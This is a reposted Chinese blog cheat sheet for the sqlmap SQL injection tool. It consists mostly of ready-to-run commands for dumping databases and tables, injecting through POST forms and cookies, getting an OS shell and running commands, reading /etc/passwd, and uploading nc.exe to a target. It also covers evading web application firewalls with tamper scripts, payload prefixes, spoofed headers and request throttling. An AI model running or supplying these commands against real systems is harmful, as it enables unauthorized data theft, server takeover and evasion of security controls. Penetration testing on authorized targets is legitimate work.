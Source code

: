 ```yaml
---
layout: post
title: "[转]【tools】SQLMAP注入工具手册"
description: ""
category: 
tags: [sql]
---
```


转自:<http://sh4dow.lofter.com/post/395c80_121497d>

# 基本的注入步骤：

    sqlmap -u "http://url/news?id=1" --dbs           #查询所有数据库
    sqlmap -u "http://url/news?id=1" --current-db          #获取当前数据库名
    sqlmap -u "http://url/news?id=1" --current-user        #获取当前用户名
    sqlmap -u "http://url/news?id=1" -D "db_name" --tables    #获取表名
    sqlmap -u "http://url/news?id=1" -D "db_name" -T "table_name"  --columns #获取列名
    sqlmap -u "http://url/news?id=1"  -D "db_name" -T "table_name" -C "column_name" --dump  #获取字段内容

注入请求选项使用：

    sqlmap -u "http://url/news?id=1"               #get注入
    sqlmap -u "http://url/news" --date "id=1"        #post注入
    sqlmap -u "http://url/news" --cookie "id=1"      #cookie注入

# 结合BurpSuite拦截的POST表单注入：

浏览器打开目标地址 http://testasp.vulnweb.com/Login.asp

配置burp代理(127.0.0.1:8080)以拦截请求

点击login表单的submit按钮

如下图，这时候Burp会拦截到了我们的登录POST请求

![](/imgs/2015-08-18-01.jpg)

5. 把这个post请求复制为txt, 我这命名为search-test.txt 然后把它放至sqlmap目录下

6. 运行sqlmap并使用如下命令：./sqlmap.py -r search-test.txt -p tfUPass，这里参数 -r 是让sqlmap加载我们的post请求rsearch-test.txt，而-p 大家应该比较熟悉，指定注入用的参数。

# POST登陆框注入：

    sqlmap -u http://testasp.vulnweb.com/Login.asp  --forms     #除了截包还可以用forms选项进行自动搜索表单
    sqlmap -u http://testasp.vulnweb.com/Login.asp  --date "tfUName=123$tfUPass=456" #POST的表单参数注入

# 应对伪静态指定注入点：

    sqlmap -u "http://url/news/1*.html" --dbs       #在*插入SQL注入语句查询数据库
    sqlmap -u "http://url/news/1*/html" --dbs       #在*插入SQL注入语句查询数据库


# 指定系统及数据库：

    sqlmap -u "http://url/news?id=1" --dbms PostgreSQL        #指定数据库
    sqlmap -u "http://url/news?id=1"  --os linux           #指定数据库服务器系统

# 命令执行及交互shell：

    sqlmap -u "http://url/news?id=1" --os-cmd=ipconfig     #执行ipconfig系统命令
    sqlmap -u "http://url/news?id=1" --os-shell            #写交互shell
    sqlmap -u "http://url/news?id=1"  --sql-query "show databases;"    #执行SQL语句          
    sqlmap -u "http://url/news?id=1"  --sql-shell            #返回SQLshell

# 文件操作：

    sqlmap -u "http://url/news?id=1"  --file-read  /etc/passwd    #读取系统文件
    sqlmap -u "http://url/news?id=1"  --file-write "C:/WINDOWS/Temp/nc.exe" --file-dest "/software/nc.exe" 

查看payload及注入语句：

    sqlmap -u "http://url/news?id=1"  -v 3   

#-v 0、只显示python错误以及严重的信息；

1、同时显示基本信息和警告信息；（默认）

2、同时显示debug信息；

3、同时显示注入的payload；

4、同时显示HTTP请求；

5、同时显示HTTP响应头；

6、同时显示HTTP响应页面。

    sqlmap -u "http://url/news?id=1"  --proxy "http://127.0.0.1:8080" #配置burp代理(127.0.0.1:8080)以拦截请求注入语句

# 测试等级对HTTP头注入利用：

    sqlmap -u "http://url/news?id=1" --level 3    #--level参数来进行不同全面性的测试，默认为1，不同的参数影响了使用哪些payload，2时会进行cookie注入检测，3时会进行useragent检测

![](/imgs/2015-08-18-02.jpg)

# 风险等级：

--risk   #共有三个风险等级，默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试。

# 盲注添加payload语句前缀与后缀绕过WAF：

    sqlmap -u "http://url/news?id=1" -p id --suffix=" -- " --prefix=")"    #相当于http://url/news?id=1）order by 10 -- 

# 编码绕过WAF：

    sqlmap -u "http://url/news?id=1" -v 3 --dbs --tamper "space2morehash.py"  #用tamper选择编码表绕过WAF注入，更多见ramper目录

# 伪装http头绕过工具识别：

    sqlmap -u "http://url/news?id=1" --referer "http://www.baidu.com"    #从百度域超链接访问的
    sqlmap -u "http://url/news?id=1" --user-agent="Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" #设置浏览器信息
    sqlmap -u "http://url/news?id=1"  --mobile                 #伪装成智能手机，设定一个手机的User-Agent来模仿手机登陆

# 绕过HTTP请求限制：

    sqlmap -u "http://url/news?id=1"  --delay 2    #延迟时间为2秒，绕过请求频繁被防火墙拦截
    sqlmap -u "http://url/news?id=1"  --safe-url       #每隔一段时间去访问一个正常的页面，绕过多次错误访问后屏蔽请求
    sqlmap -u "http://url/news?id=1"  --safe-freq    #每次测试请求之后都再访问一遍安全连接，绕过多次错误访问后屏蔽请求

# 绕过URL参数值编码：

    sqlmap -u "http://url/news?id=1" --skip-urlencode   #关闭url编码，使web服务器接受url值

# 从文本中获取多个目标检测：

www.target1.com/vuln1.php?q=foobar

www.target2.com/vuln2.asp?id=1

www.target3.com/vuln3/id/1*               

    sqlmap -m  url.txt                       #将url格式保存到文件，sqlmap会逐一检测

# 启发式判断注入：

    sqlmap -u "http://url/news?id=1"  --batch --smart  #默认智能判断注入
